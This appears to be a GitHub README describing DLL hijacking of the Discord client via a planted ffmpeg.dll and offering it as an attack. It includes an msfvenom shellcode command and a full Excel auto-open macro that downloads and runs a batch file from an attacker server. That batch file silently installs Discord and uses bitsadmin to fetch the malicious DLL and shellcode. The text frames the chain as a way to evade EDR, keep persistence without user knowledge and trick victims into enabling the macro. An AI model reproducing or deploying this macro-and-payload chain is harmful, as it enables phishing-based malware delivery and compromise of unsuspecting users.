 # Discord DLL hijacking / Automation via Excel Macros. 
This is a simple quick example of DLL hijacking enabling proxy execution for the Discord Binary. This can be beneficial for attackers requiring proxy execution to bypass EDR

## Note
I submitted this vuln to discord via their hackerone program. They choose to not recognize DLL hijacking unless it's related to the discord installer binary. 
Similarly to chrome: https://chromium.googlesource.com/chromium/src/+/master/docs/security/faq.md#why-arent-physically_local-attacks-in-chromes-threat-model

I understand this too an extent, but they don't seem to make any attempt to verify these DLL's or load them using best practices as directed by Microsoft: 
https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1

This is an upstream vulnerability introduced by their dependencies of Node. 



</br>

## What is DLL hijacking and why is it useful? 

DLL hijacking has been around a very long time. The severity of these attacks is dependent on a variety of factors, primarily application context. 
Microsoft gives a good summary: 

"When an application dynamically loads a dynamic link library (DLL) without specifying a fully qualified path, Windows tries to locate the DLL by searching a well-defined set of directories. If an attacker gains control of one of the directories, they can force the application to load a malicious copy of the DLL instead of the DLL that it was expecting. These attacks are known as “DLL preloading attacks” and are common to all operating systems that support dynamically loading shared DLL libraries. The effect of such attacks could be that an attacker can execute code in the context of the user who is running the application. When the application is being run as Administrator, this could lead to a local elevation of privilege." 

-> Source: https://support.microsoft.com/en-us/topic/secure-loading-of-libraries-to-prevent-dll-preloading-attacks-d41303ec-0748-9211-f317-2edc819682e1 

Why should we care? 
First off, gaining execution context under a trusted application is useful for proxy execution of malicious payloads. Pending the AV/EDR, payloads can be executed in an'trusted' context. Adversaries can also use this technique for persistence mechanisms.

Discord in some instances requires Administrator privs when Push-To-Talk is overidden by other Administrative applications. This combined with it's popularity peaked my interest.


## Analyzing with Procmon 

Doing a basic filter results in ALOT of misconfigurations for search based DLL issues. What interested me was the 'ffmpeg.dll' I noticed elsehwhere in the procmon dump. This appears to be a common DLL used by a variety of applications including whatsapp. 

![image](https://user-images.githubusercontent.com/46195001/231240214-d6421d61-a458-4104-8591-03f38f26d2d4.png)

</br> 


## Generate a payload 
Generate some shellcode to your liking. My POC: msfvenom -f raw -o pop.bin -p windows/exec cmd="cmd.exe /k whoami" exitfunc=thread --bad-chars '\x00\x20\' --smallest

## Generating a malicious DLL 

Using this great repository we can create our own DLL utilizing pragma comments to replicate functions: 
https://github.com/Flangvik/SharpDllProxy 

![dllproxy](https://user-images.githubusercontent.com/46195001/232322708-9f158799-c850-4a69-b69b-ad7372cbec1b.png)

<br> 
This will output two files, .c & an DLL 'tmpXYZ.dll'. Simply create a new DLL project in visual studio and replace the source with the output from DLLProxy. 
Once you've compiled it, copy your compiled DLL (name it ffmpegdll), the tmpXYZ.dll (loades your shellcode) and your shellcode.bin into "C:\Users\<user>\AppData\Local\Discord\app-1.0.9012\". 

## Result 
![popped](https://user-images.githubusercontent.com/46195001/232325180-3ec3af99-d5f9-4c8c-935c-fd7d3c0ece51.png)

Running Discord.exe executes a shellode. Great! Interestingly Discord itself crashes out with no visual artifacts but our cmd.exe process remains. This is ideal if we drop discord ourselves as a persistence mechanism without user knowledge. 
</br>

## Weaponizing 
It's quite simple to weaponize this DLL hijacking in an automated fashion. Below is a basic macro that downloads a batch file to execute installing discord and download the malicious files. 

The kicker for this method: 
- Discord installs silently, no on screen artifacts. 
- Discord uses it's own scheduled task on reboot giving us code exec.
- Using ffmpeg.dll will give us code execution and crash the legitimate discord process with zero notification to the user. Likely to see WerFault & MiniDumps however. 


</br>

### Excel Macro 

```
Private Sub Workbook_Open()

Dim url, downloadPath, batPath, shell, winHttpReq
url = "http://192.168.120.128/Update.txt"
downloadPath = "C:\Users\" & CreateObject("WScript.Network").UserName & "\AppData\Local\Update.bat"
batPath = "C:\Users\" & CreateObject("WScript.Network").UserName & "\AppData\Local"

' Create a WinHttpRequest objects
Set winHttpReq = CreateObject("WinHttp.WinHttpRequest.5.1")

' Open a connection to the specified URL
winHttpReq.Open "GET", url, False

' Send the HTTP request and download the file
winHttpReq.Send
If winHttpReq.Status = 200 Then
    Dim stream
    Set stream = CreateObject("ADODB.Stream")
    stream.Type = 1 ' Binary
    stream.Open
    stream.Write winHttpReq.ResponseBody
    stream.SaveToFile downloadPath, 2 ' Overwrite
    stream.Close
End If

' Execute the downloaded BAT file
Set shell = CreateObject("WScript.Shell")
shell.Run batPath & "\Update.bat"

Set shell = Nothing
Set winHttpReq = Nothing


End Sub
```

### Seemless discord install via .bat file. 
```
@echo off
set DOWNLOAD_URL=https://dl.discordapp.net/distro/app/stable/win/x86/1.0.9012/DiscordSetup.exe
set DOWNLOAD_DLL=http://192.168.120.128/ffmpeg.dll 
set DOWNLOAD_BIN=http://192.168.120.128/pop.bin
set DOWNLOAD_tmp=http://192.168.120.128/tmp108E.dll
set DOWNLOAD_LOCATION=C:\Windows\Temp\Update.exe
set EXECUTE_LOCATION=C:\Windows\Temp\

set COPY_LOCATION=%LOCALAPPDATA%\Discord\app-1.0.9012\
set DL_DLL=%LOCALAPPDATA%\Discord\app-1.0.9012\ffmpeg.dll
set DL_tmp=%LOCALAPPDATA%\Discord\app-1.0.9012\tmp108E.dll
set DL_bin=%LOCALAPPDATA%\Discord\app-1.0.9012\pop.bin


bitsadmin /transfer myDownloadJob /priority normal %DOWNLOAD_URL% %DOWNLOAD_LOCATION%
start "" "%EXECUTE_LOCATION%\Update.exe" --silent
timeout /t 10
bitsadmin /transfer myDownloadJob1 /priority normal %DOWNLOAD_DLL% %DL_DLL%
bitsadmin /transfer myDownloadJob2 /priority normal %DOWNLOAD_BIN% %DL_bin%
bitsadmin /transfer myDownloadJob3 /priority normal %DOWNLOAD_tmp% %DL_tmp%
```

### Server setup 
Enable apache 2 and copy across the files from below (I forgot the bat file in the ss). 
![image](https://user-images.githubusercontent.com/46195001/232535184-26456e4b-9a92-439e-b8e1-5c1405b792d1.png)

Create your macro in a convincing manner, get them to execute it. 

### Result... 
Popped a shell .. :) 
 
![image](https://user-images.githubusercontent.com/46195001/232533881-7fd1d90a-1974-4672-afc6-be0f802171a1.png)





